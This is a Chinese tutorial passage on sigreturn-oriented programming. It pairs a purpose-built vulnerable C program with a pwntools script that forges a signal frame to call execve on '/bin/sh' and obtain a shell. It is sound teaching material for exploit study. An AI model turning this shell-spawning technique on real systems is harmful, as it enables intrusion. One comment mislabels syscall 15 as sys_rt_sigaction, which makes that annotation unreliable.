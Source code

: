 # Example

我们可以自行构造一个程序，使用 SROP 进行一个简单的利用：

```cpp
char buf[0x200];

int main()
{
    asm(
        // 读取 0x200 字节
        "mov rax, 0\n" // sys_read
        "mov rdi, 0\n" // fd
        "lea rsi, %0\n" // buf
        "mov rdx, 0x200\n" // count
        "syscall\n"

        // 恢复进程上下文
        "mov rax, 15\n" // sys_rt_sigaction
        "mov rdi, 0\n"
        "mov rsp, rsi\n" // 把buf作为栈
        // syscall 的 symbol，便于查找
        "syscall:\n"
        "syscall\n"
        "jmp exit\n"

        // 退出程序
        "exit:\n"
        "mov rax, 60\n" // sys_exit
        "mov rdi, 0\n"
        "syscall\n"
        :
        : "m" (buf)
        :
        );
}
```

构造出 Signal Frame，并在 buf 上设置好字符串，发送 payload 后拿到 shell：

```python
#!/usr/bin/env python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

p = process('./main')
elf = ELF('./main')

#gdb.attach(p)

# 构造假的Signal Frame
frame = SigreturnFrame()
frame.rax = constants.SYS_execve # 设置系统调用号为sys_execve
frame.rdi = elf.symbols['buf'] + 0x100 # 设置第一个参数为偏移0x100处的“/bin/sh”字符串
frame.rsi = 0
frame.rdx = 0
frame.rip = elf.symbols['syscall']

payload = str(frame).ljust(0x100, 'A') + '/bin/sh\x00' # 设置payload
p.send(payload)

p.interactive()
```